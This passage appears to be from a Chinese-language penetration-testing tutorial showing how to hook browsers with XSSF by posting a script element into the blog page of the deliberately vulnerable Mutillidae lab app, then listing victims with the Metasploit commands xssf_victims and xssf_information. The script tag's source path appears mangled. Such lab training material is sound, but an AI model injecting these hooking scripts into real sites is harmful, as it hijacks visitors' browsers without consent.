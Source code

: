 我们将使用易受攻击的 Web 应用程序**Mutillidae**来演示 XSSF。Mutillidae 是 Metasploitable 项目的一部分，可以从[`sourceforge.net/projects/metasploitable/files/Metasploitable2/`](http://sourceforge.net/projects/metasploitable/files/Metasploitable2/)下载。有关安装此易受攻击目标的注意事项，请参阅附录*安装 Kali Linux*。

1.  一旦打开 Mutillidae，导航到博客页面；这个页面已知容易受到 XSS 攻击（您可以使用漏洞扫描工具对 Mutillidae 进行扫描，以识别其他潜在的插入点）。

要对目标客户端发动攻击，不要在博客中输入常规帖子。相反，输入包含目标 URL 和端口的脚本元素：

```
<script src="img/loop?interval=5"></script>
```

下面的截图显示了攻击代码在目标网站的博客页面上的放置。

![跨站脚本框架](img/3121OS_11_09.jpg)

当这个被输入并受害者点击**保存博客条目**时，他们的系统将被攻击。从 Metasploit Framework 控制台，测试人员可以使用`xssf_victims`和`xssf_information`命令获取有关每个受害者的信息。执行`xssf_victims`命令后，将显示有关每个受害者的信息，如下截图所示：

![跨站脚本框架](img/3121OS_11_10.jpg)
